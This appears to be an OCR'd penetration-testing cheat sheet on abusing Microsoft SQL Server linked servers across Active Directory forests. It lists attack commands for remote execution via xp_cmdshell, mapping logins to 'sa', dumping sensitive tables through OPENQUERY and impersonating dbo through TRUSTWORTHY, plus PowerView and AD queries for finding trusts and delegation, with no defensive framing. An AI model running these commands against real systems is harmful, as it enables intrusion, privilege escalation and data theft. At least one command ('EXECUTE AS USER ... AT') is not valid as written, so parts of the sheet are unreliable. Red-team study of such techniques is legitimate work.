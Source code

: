 
### **Key Attack Techniques**

1. **Remote Command Execution**:
   - **Objective**: Execute system commands on a remote linked SQL server.
   - **Command**:
     ```sql
     EXEC('xp_cmdshell ''whoami''') AT [LinkedServerName];
     ```

2. **Privilege Escalation via Linked Servers**:
   - **Objective**: Gain privileged access to linked SQL Servers and escalate privileges across a forest.
   - **Command**:
     ```sql
     EXEC sp_addlinkedsrvlogin @rmtsrvname='LinkedServer', @useself='false', @locallogin=NULL, @rmtuser='sa', @rmtpassword='password';
     ```

3. **Data Exfiltration via Linked Servers**:
   - **Objective**: Query sensitive data across a linked server.
   - **Command**:
     ```sql
     SELECT * FROM OPENQUERY([LinkedServer], 'SELECT * FROM sensitive_database.dbo.sensitive_table');
     ```

4. **Abusing TRUSTWORTHY Databases**:
   - **Objective**: Elevate privileges using the TRUSTWORTHY database property across linked servers.
   - **Command**:
     ```sql
     EXECUTE AS USER = 'dbo' AT [LinkedServer];
     ```

### **Enumeration Techniques for Linked Servers in AD Forests**

1. **Use PowerView for Trust Enumeration**:
   - **Command**:
     ```powershell
     Get-NetForestTrust
     ```
   - This will enumerate trust relationships between forests, which may allow cross-forest access via linked SQL Servers.

2. **Check for Cross-Forest Constrained Delegation**:
   - **Command**:
     ```powershell
     Get-ADComputer -Filter {msDS-AllowedToDelegateTo -like '*MSSQLSvc*'} -Properties msDS-AllowedToDelegateTo
     ```
   - This checks for accounts and servers that are configured for delegation, which could be abused in linked SQL Server attacks.

### **Tools to Use**:
- **PowerView**: For AD trust enumeration.
- **Impacket’s mssqlclient.py**: For interacting with SQL Servers and running linked server commands.
- **BloodHound**: To analyze AD environments and detect privileges or delegation that can help in cross-forest linked SQL server attacks.
